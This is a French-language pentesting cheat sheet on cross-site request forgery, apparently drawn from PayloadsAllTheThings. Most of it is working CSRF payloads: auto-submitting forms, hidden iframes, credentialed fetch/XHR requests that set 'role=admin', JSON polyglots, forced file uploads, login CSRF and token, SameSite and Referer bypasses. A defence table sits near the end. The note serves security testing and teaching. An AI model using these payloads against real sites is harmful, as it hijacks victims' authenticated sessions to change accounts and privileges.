

# 🔄 CSRF — Cross-Site Request Forgery

> [!info] **En 1 phrase**
> CSRF = forcer un utilisateur **authentifié** à exécuter une action qu'il n'a pas demandée
> (changement d'email, transfert, upload...) en lui faisant émettre une **requête forgée**
> vers l'application — le navigateur envoie **automatiquement** les cookies de session.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Cross-Site%20Request%20Forgery/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Le cookie est envoyé avec **chaque** requête vers le domaine cible, peu importe son **origine**.
> L'attaquant ne peut pas **lire** la réponse (Same-Origin Policy) mais n'en a pas besoin :
> CSRF cible uniquement des **actions qui changent l'état**, jamais le vol de données.

---

## 📮 Payloads classiques

### GET — action d'état en requête simple

> [!warning] ⚠️ Le paramètre qui change l'état ne doit PAS être dangereux côté attaquant
> (voir **Login CSRF** et les pièges `SameSite=Lax` en fin de note).

```html
<!-- Interaction utilisateur : simple lien -->
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>

<!-- Sans interaction : balise img → le navigateur fait un GET automatique -->


<!-- Autres vecteurs sans interaction : iframe / meta refresh -->
<iframe src="http://www.example.com/api/setusername?username=CSRFd" style="display:none"></iframe>
<meta http-equiv="refresh" content="0;url=http://www.example.com/api/setusername?username=CSRFd">
```

### POST — formulaire

```html
<!-- Interaction : bouton submit -->
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
  <input type="hidden" name="username" value="CSRFd" />
  <input type="submit" value="Submit Request" />
</form>

<!-- Sans interaction : auto-submit via JS -->
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
  <input type="hidden" name="username" value="CSRFd" />
</form>
<script>
  document.getElementById("autosubmit").submit();
</script>
```

### POST — fetch / XHR

```js
// XHR simple (Content-Type simple → pas de préflight CORS)
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("role=admin");

// fetch équivalent — ⚠️ credentials: "include" OBLIGATOIRE
fetch("http://www.example.com/api/setrole", {
  method: "POST",
  credentials: "include",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "role=admin"
});
```

> [!tip] 💡 **`credentials: "include"`** : avec `fetch`, les cookies ne partent qu'avec ce flag
> (équivalent `withCredentials = true` en XHR). Sans lui, pas de session → pas de CSRF via fetch.

### POST — iframe avec `target`

```html
<iframe name="csrf" style="display:none"></iframe>
<form action="http://www.example.com/api/setrole" method="POST" target="csrf">
  <input type="hidden" name="role" value="admin" />
  <input type="submit" value="go" />
</form>
<script>
  document.forms[0].submit();  // la réponse s'affiche dans l'iframe invisible
</script>
```

---

## 🚀 Payloads avancés

### multipart/form-data — upload de fichier (interaction requise)

> `DataTransfer` + `File` permet d'injecter un fichier **sans que la victime en choisisse un**
> (contourne l'impossibilité de setter `.files` programmatiquement sur un input).

```html
<script>
function launch() {
  const dT = new DataTransfer();
  const file = new File(["CSRF-filecontent"], "CSRF-filename");
  dT.items.add(file);
  document.xss.file.files = dT.files;
  document.xss.submit();
}
</script>

<form style="display:none" name="xss" method="post" action="http://www.example.com/avatar"
      enctype="multipart/form-data">
  <input id="file" type="file" name="file"/>
  <input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```

### JSON CSRF — Content-Type `text/plain`

> `application/json` est un Content-Type **non-simple** → préflight CORS bloqué. `text/plain`
> est un Content-Type **simple** → pas de préflight, le corps JSON part quand même !

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");   // simple request → pas de préflight
xhr.send('{"role":admin}');
```

### JSON CSRF — polyglot (formulaire à champ unique)

> L'`enctype="text/plain"` envoie le corps `{"role":admin,"other":"="}` (le serveur qui parse
> du JSON sur n'importe quel Content-Type est vulnérable). **Contourne aussi la protection
> anti-tracking (ETP) de Firefox** (Standard).

```html
<form id="CSRF_POC" action="http://www.example.com/api/setrole" enctype="text/plain" method="POST">
  <input type="hidden" name='{"role":admin, "other":"' value='"}'>
</form>
<script>
  document.getElementById("CSRF_POC").submit();
</script>
```

> Le corps transmis sera : `{"role":admin, "other":"="}` — le serveur ignore la paire parasite
> et exécute quand même `role=admin`.

### Flash — le formulaire à champ unique historique

> Anciennement (Flash actif), un `<form>` multipart à 1 seul champ envoyait du JSON/XML brut.
> Obsolète aujourd'hui mais reflète le même principe que le polyglot.

```html
<form method="post" action="http://www.example.com/api" enctype="multipart/form-data">
  <input name='{"a":' value='}' type='hidden'>
</form>
```

---

## ⚖️ CSRF : GET vs POST

| Méthode | Faisabilité | Notes |
|---|---|---|
| **GET** | Très simple | ``, `<a>`, `<iframe src>` : zéro interaction. Uniquement si l'app accepte des actions d'état en GET. |
| **POST** | Simple | `<form>` auto-submit : la façon la plus fiable de forcer un POST cross-site. |
| **PUT / PATCH / DELETE** | Difficile | Non déclenchables par `<form>`/``. Nécessite XHR + CORS permissif, ou méthode de tunneling (`_method=PUT`). |

## 🔎 Trouver les endpoints vulnérables

> [!tip] 💡 **Méthodo de tri** : intercepter un changement d'état authentifié (Burp → Repeater),
> puis supprimer **un par un** les éléments de protection :

1. **Retirer le token** : la requête marche toujours sans `csrf_token` / `X-CSRFToken` ?
2. **Retirer les cookies** : un cookie (ex: `csrftoken`) sert-il de vérificateur du token ?
3. **Changer la méthode** : le token est vérifié sur POST mais pas sur GET/PUT ?
4. **Modifier Origin/Referer** : suppression ou valeur arbitraire → toujours accepté ?
5. **`SameSite` du cookie de session** : `None` (cross-site OK) / `Lax` (GET top-level) / `Strict` ?
6. **Double-submit** : token dans un cookie ET dans le corps ? Prédictible / fixable ?

```http
# Requête d'origine (Burp Repeater)
POST /api/setrole HTTP/1.1
Host: www.example.com
Cookie: session=abc123; csrftoken=abc123
Content-Type: application/x-www-form-urlencoded
X-CSRFToken: abc123

role=admin
```

> Si la réponse est **identique** sans le header/token → CSRF confirmé. Générer le PoC avec Burp
> (voir 🧰 Outils) et le valider dans un navigateur de test avec une vraie session.

---

## 🔓 Bypass de protections

### Tokens — fuite et contournement

| Vecteur | Détail |
|---|---|
| **Referer leak** | Le token est dans l'URL (`?token=...`) → une `` vers un domaine contrôlé fait fuiter le Referer. |
| **XSS** | N'importe quel XSS (même mineur) désarme totalement les CSRF tokens — bypass ultime. |
| **multipart / content-type** | Certaines stacks ne vérifient le token que si le corps est `application/x-www-form-urlencoded`. |
| **Token non lié à la session** | Le token reste valide pour toutes les sessions → on injecte le nôtre. |
| **Token non lié au user** | Valide pour tous les utilisateurs → même technique. |
| **Token prédictible** | Hash/date/incrément → devinable puis injecté. |

> [!warning] ⚠️ **Token dans l'URL = mauvais design.** Il fuite via le Referer (headers, logs
> serveur/proxy, addons) → l'attaquant peut l'obtenir sans même lire la réponse.

### SameSite — contournements

| Config cookie | Bypass |
|---|---|
| `SameSite=None` | Aucun : les cookies partent avec **toute** requête cross-site (exige `Secure`). CSRF direct. |
| `SameSite=Lax` | Autorise **GET top-level** (`<a>`, navigation, redirection). Si l'action existe en GET → vulnérable. |
| `SameSite=Strict` | Bloque tout cross-site... mais un **sous-domaine** contrôlé ou un 2e cookie `None` contourne. |
| Sous-domaine | Le scope d'un cookie (`Domain=example.com`) couvre `*.example.com` → `evil.example.com` peut le lire/le fixer. |
| Top-level navigation | Un clic / `window.open` / `location=` / redirect = navigation top-level → cookies `Lax` partent. |

> [!warning] ⚠️ **`SameSite=Lax` ≠ panacée** : toute action de changement d'état en **GET** reste
> exploitable. Chrome applique aussi une exception **"Lax+POST"** (~2 min après une navigation
> top-level) où un POST porte les cookies → exploit via redirect en chaîne.

### Double-submit (token dupliqué cookie + corps)

> La vérification est : token du **cookie** == token du **corps**. Si le cookie est **fixable**
> (sous-domaine dans le scope, ou prédictible), on aligne les deux.

```html
<script>
  document.cookie = "csrf_token=victim-token; domain=.example.com";
</script>

```

### Absence de vérification selon méthode / présence

```http
# 1. Le token n'est vérifié que sur POST → passer en GET
GET /api/setrole?role=admin&csrf_token=whatever HTTP/1.1

# 2. Le token n'est vérifié que s'il est présent → le supprimer
POST /api/setrole HTTP/1.1
Content-Type: application/x-www-form-urlencoded

role=admin
```

### Vérification Origin/Referer faible

```http
# "contient example.com n'importe où" → pointer vers evil.com/example.com
Referer: http://evil.com/example.com

# Vérif qui dépend de la PRÉSENCE du header → le supprimer
# (les navigateurs omettent souvent le Referer : HTTPS→HTTP, meta referrer-policy...)
```

---

## 🔌 CSRF sur les APIs / JSON

### Contraintes du navigateur

- **Simple requests** (pas de préflight CORS) : `GET`, `HEAD`, `POST` avec Content-Type
  `application/x-www-form-urlencoded`, `multipart/form-data` ou `text/plain`.
- **`application/json`** → préflight `OPTIONS` → bloqué sans en-têtes CORS permissifs.
- **Anti-CSRF headers** (`X-CSRFToken`, `X-Requested-With`, `X-Custom-*`) : header custom
  = préflight → il faut un CORS qui les autorise pour les envoyer cross-site.

### Payloads

```js
// 1. Simple request : text/plain → pas de préflight
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://api.example.com/v1/user/role");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":"admin"}');

// 2. Complexe : application/json + credentials → préflight OPTIONS obligatoire
xhr.open("POST", "http://api.example.com/v1/user/role");
xhr.withCredentials = true;                                   // cookies inclus
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":"admin"}');
// → ne marche QUE si :
//    Access-Control-Allow-Origin: http://evil.com
//    + Access-Control-Allow-Credentials: true
//    + Access-Control-Allow-Headers: content-type

// 3. Simple request en dur (img/form) pour une API qui parse tout
fetch("http://api.example.com/v1/user/role", {
  method: "POST",
  credentials: "include",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "role=admin"
});
```

### Le cas du `X-CSRFToken` reflété

> Si la réponse **reflète** la valeur du token (champ d'erreur, JSON, header exposé via
> `Access-Control-Expose-Headers`), on peut le lire en cross-site (CORS permissif) → CSRF complet.
> Chercher les réflexions : erreurs de validation, messages en JSON, doublons dans la réponse.

---

## 🔐 Login CSRF

> Forcer la victime à se connecter au **compte de l'attaquant**. Impact : l'attaquant voit tout
> ce que la victime tape (mot de passe, CB...), et la victime ne peut plus créer son propre compte.

```html

<!-- ou auto-submit de formulaire -->
<form action="http://www.example.com/login" method="POST" id="l">
  <input type="hidden" name="username" value="attacker">
  <input type="hidden" name="password" value="attacker">
</form>
<script>document.getElementById("l").submit();</script>
```

> [!tip] 💡 **Pourquoi ça marche** : le login est un **changement d'état** → CSRFable. La victime
> ne remarque pas qu'elle est connectée au mauvais compte. Défense : token CSRF sur le login
> **et** ne pas connecter automatiquement une session fraîche.

---

## 🧰 Outils

| Outil | Usage |
|---|---|
| **Burp Suite — CSRF PoC generator** | Repeater → clic droit → *Engagement tools → Generate CSRF PoC*. Génère du HTML/fetch/iframe, gère le token (ou sa suppression). |
| **XSRFProbe** (`0xInfection/XSRFProbe`) | Audit et exploitation automatisée : détecte les endpoints sans protection (token, SameSite...). |

```bash
# XSRFProbe — audit d'une URL
python xsrfprobe -u http://example.com/change-email
python xsrfprobe -u http://example.com/change-email --cookie "session=xxx" --post-data "email=x"
```

> PortSwigger Academy : 8 labs CSRF (no defenses, validation par méthode/présence, token non lié
> à la session, token dupliqué dans un cookie, Referer...).

---

## 🔍 Détection & Défense

| Protection | Détail | Contournable ? |
|---|---|---|
| **Synchronizer token** | Token aléatoire **par session**, champ caché + vérif serveur. | Uniquement XSS / leak Referer / token faible |
| **`SameSite=Lax` / `Strict`** | Le navigateur ne joint pas le cookie cross-site (Lax : GET top-level seulement). | Sous-domaines, GET top-level, exceptions navigateur |
| **Double-submit cookie** | Token identique dans un cookie + corps → comparés. | Cookie fixable (sous-domaine) ou prédictible |
| **Vérification Origin/Referer** | Compare l'en-tête à l'hôte attendu. | Referer supprimable/absent, hôte partiel, open redirect |
| **Custom header (`X-Requested-With`)** | Oblige un header qu'un cross-site ne peut pas envoyer sans CORS. | Faible seul (balises/plugins l'envoient parfois) |
| **Pas de cookie** | Auth par header `Authorization` (Bearer), token en JS. | **La plus robuste** : rien n'est rejoué automatiquement |
| **CAPTCHA / re-auth** | Interaction humaine pour les actions sensibles. | UX lourde, réservé aux actions critiques |

> [!tip] 💡 **La défense ultime** : aucune information d'authentification envoyée automatiquement.
> Les tokens Bearer (`Authorization`) ne sont jamais envoyés par le navigateur tout seul →
> rien à forger.

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre des tests (rapide et logique)**
> 1. **Token ?** — le retirer (ou changer sa valeur) → toujours 200 = vulnérable.
> 2. **Méthode ?** — si POST protégé, tester GET/PUT/DELETE/OPTIONS (règle souvent oubliée).
> 3. **`SameSite` ?** — inspecter le `Set-Cookie` du login : `None` = CSRF direct, `Lax` = tester le GET top-level.
> 4. **Origin/Referer ?** — retirer le header, puis mettre `evil.com/example.com`.
> 5. **Double-submit ?** — le token cookie est-il prédictible ou fixable via un sous-domaine ?
> 6. Générer le **PoC fonctionnel** (Burp) et le valider dans un navigateur avec session réelle.

> [!warning] ⚠️ **Pièges classiques**
> - **`SameSite=Lax` ≠ protégé** : toute action d'état en **GET** reste CSRFable (top-level
>   navigation, ``, `<a>`). Teste la version GET de chaque POST.
> - **Cookies sur sous-domaines** : `Domain=example.com` = le cookie part sur `*.example.com` →
>   un sous-domaine contrôlé (ou un cookie fixé) casse `SameSite` ET le double-submit.
> - **JSON n'est pas une défense** : `text/plain` + polyglot envoie du JSON **sans préflight**.
> - **Token dans un header + méthode GET** : la version GET n'est souvent pas protégée.
> - **Referer absent** : HTTPS→HTTP, `referrer-policy` → une vérif "présence obligatoire" casse
>   l'UX légitime ET l'attaquant peut omettre le header.
> - **Chrome "Lax+POST"** : ~2 min après une navigation top-level, un POST porte les cookies Lax
>   → exploitable via redirect.
> - **Token dans l'URL** = fuite Referer → attaque triviale sans pré-requis.
> - **CSRF ≠ vol de données** : on ne lit pas la réponse. Si tu lis la réponse (CORS permissif),
>   c'est un niveau d'impact supérieur, pas du CSRF "simple".

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[CORS|🌐 CORS]]
- [[Clickjacking|🖱️ Clickjacking]]
- [[SSRF|🌐 SSRF]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Cross-Site Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Cross-Site%20Request%20Forgery/README.md)
- 🧪 Labs : [PortSwigger — CSRF](https://portswigger.net/web-security/csrf)
